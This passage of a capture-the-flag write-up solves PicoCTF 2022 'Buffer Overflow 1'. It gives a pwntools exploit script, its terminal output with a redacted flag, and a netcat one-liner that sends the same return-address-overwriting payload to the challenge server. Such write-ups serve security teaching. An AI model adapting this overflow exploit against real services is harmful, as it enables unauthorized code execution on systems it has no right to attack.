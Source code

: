 ```python
# PicoCTF 2022 - Buffer Overflow 1
# shinris3n/NINPWN

from pwn import * # pip3 install pwn

# Open up connection.
address = 'saturn.picoctf.net'
port = 59737
tcpsocket = remote(address, port)

# Receive server input request
print((tcpsocket.recvuntil('\n'.encode('latin-1'))).decode('latin-1'))

# Define payload
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08"

# Encode and send payload
tcpsocket.sendline(payload.encode('latin-1'))
print ('Sent: 0x' + binascii.hexlify(payload.encode('latin-1')).decode('latin-1')
)

# Receive flag
print((tcpsocket.recvline()).decode('latin-1')) # Receive line after string is entered
print((tcpsocket.recv()).decode('latin-1')) # Receive the flag

# Catch a shell (N/A to this challenge, but sharing because it's an extremely helpful function to know about when needing to exploit a system!)
# tcpsocket.interactive()
```
- The exploit code establishes a connection to our instance and uses our previous payload string to successfully capture the flag:

```console
┌──(shinris3n㉿kodachi)-[~/sec/CTFs/PicoCTF2022/buffer overflow 1]
└─$ python3 exploit.py 
[+] Opening connection to saturn.picoctf.net on port 59737: Done
Please enter your string: 

Sent: 0x4161304161314161324161334161344161354161364161374161384161394162304162314162324162334162f6910408
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6

picoCTF{redacted_flag_try_it_yourself_at_the_picoGym!}
[*] Closed connection to saturn.picoctf.net port 59737
```

- If the pwntools library is not available, or for some reason the script doesn't seem to interact properly with the service, command line solutions sending across the same payload include the following:


```console
(Using echo)

shinris3n@bokken:~/sec/CTFs/PicoCTF2022/buffer overflow 2$ (echo -ne 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08\n'; cat -) | nc saturn.picoctf.net 60968
Please enter your string: 

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{redacted_flag_try_it_yourself_at_the_picoGym!}
```
